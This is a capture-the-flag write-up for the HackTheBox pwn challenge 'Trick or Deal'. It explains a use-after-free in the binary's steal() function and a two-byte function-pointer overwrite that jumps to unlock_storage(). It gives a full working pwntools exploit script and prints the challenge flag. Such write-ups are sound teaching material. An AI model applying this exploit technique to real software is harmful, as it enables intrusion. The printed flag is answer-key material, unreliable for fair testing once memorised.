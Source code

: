 # Trick or Deal
## DESCRIPTION:
Bonnie and his crew arrive to planet Longhir to get equipped with the latest weaponry, but the intergalactic weapon dealer refuses to sell them weapons because he has a trade agreement with Draeger, the Alien Overlord,thus Bonnie has to employ his neat exploitation tricks to persuade the dealer into selling them weapons.
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

```console
┌──(brandy㉿bread-yolk)-[~/Downloads/trickor/challenge]
└─$ file trick_or_deal
trick_or_deal: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=782a7adfe9057b833b6d03e6c72d0d00234b732b, not stripped
```

> BINARY PROTECTIONS

```console
┌──(brandy㉿bread-yolk)-[~/Downloads/trickor/challenge]
└─$ pwn checksec trick_or_deal 
[*] '/home/brandy/Downloads/trickor/challenge/trick_or_deal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./glibc/'
```

2. After decompiled the binary, found the vuln at the `steal()` function.

> USE AFTER FREE (UAF) VULN

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0459f894-b235-456b-a158-8178edf8bbd9)


3. And it seems our goal is at the `unlock_storage()`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c4be67cc-3490-4434-bfb8-76819fee077c)


4. The pwn concept here is ret2win, but the problem is the PIE enabled and there is no potential overflow. We can leak the PIE at `buy()` by sending 7 bytes, but we won't be able to use it because there is no overflow.
5. Anyway we can still do get inside the `unlock_storage()` using the **UAF** with modifying the last 2 bytes (least significant bytes) of the function pointer. The goal is to change **printstorage** to **unlock_storage**.

#### NOTES:

```
update_weapons() is called at the main(), and it allocates a chunk on the heap. The chunk is saved in a global variable named storage with a size of 80 bytes (0x50) and it copies it's value and a pointer to the printstorage(). (Only in the last 8 bytes). 
```


6. But why printstorage shall be our interest? Here's why:

> WITH GDB - CHECKING THE HEAP CHUNKS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/61265489-8ae5-4c02-b200-5b957478fbc4)


> PROOF (80 sized chunk holds a string and also the printstorage() pointer

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/327b93d0-d395-43c0-88fc-a48fa4fc9505)


### FLOW

```
At first, we free the storage by calling the steal(), since storage is not set to NULL,
hence we can use the chunk later (it just freed, does not remove the contents).

Next we do malloc by calling the make_offer() and make a size of 80 to take the original chunk.
Since we only need the last 2 bytes, hence we can fill the rest (72 buffer) with junk. Now we will get RCE at option 1. 
```

> SCRIPT

```py
from pwn import * 
import os 
os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './trick_or_deal'
elf = context.binary = ELF(exe, checksec=True)
#context.log_level = 'DEBUG'
context.log_level = 'INFO'

sh = start()

sh.sendlineafter(b'?', b'4')
sh.sendlineafter(b'?', b'3')
sh.sendlineafter(b':', b'y')
sh.sendlineafter(b'?', b'80') # 0x50

p = flat([
    asm('nop') * 72, #0x48
    # since last 2 bytes hence --> pack 16
    p16(elf.sym['unlock_storage'] & 0xffff) # Overwriting the last 2 bytes 
])

sh.sendafter(b'?', p) ## dunno why it can't send with the \n, but we get RCE without sending the newline.
sh.sendlineafter(b'?', b'1') # get RCEEEE
sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/641dc649-6b51-4c94-aedc-9b0b3469dd93)


> TEST REMOTELY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d505c310-2d8c-45c6-a9c3-be0f622df283)


## FLAG

```
HTB{tr1ck1ng_41nt_ch34t1ng}
```



